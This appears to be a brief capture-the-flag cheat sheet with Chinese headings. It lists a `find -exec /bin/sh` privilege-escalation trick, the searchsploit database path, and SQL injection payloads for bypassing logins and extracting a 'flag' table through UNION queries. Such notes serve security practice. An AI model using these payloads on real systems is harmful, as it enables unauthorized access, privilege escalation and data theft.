 ### `find` 提权

```
1. find ./ acce -exec '/bin/sh' \;

2. touch bcce
find bcce -exec '/bin/sh' \;
```

### `searchsploit`

```
searchsploit
/usr/share/exploitdb
```

### `SQL` 注入

```
username=a' or 1 #
a' or 1 union select 1,group_concat(flag),3 from flag#            

table_schema=database();                           


admin' or '1'='1' 
union select 1,group_concat(column_name),3 
from information_schema.columns 
where table_name='flag'#
```

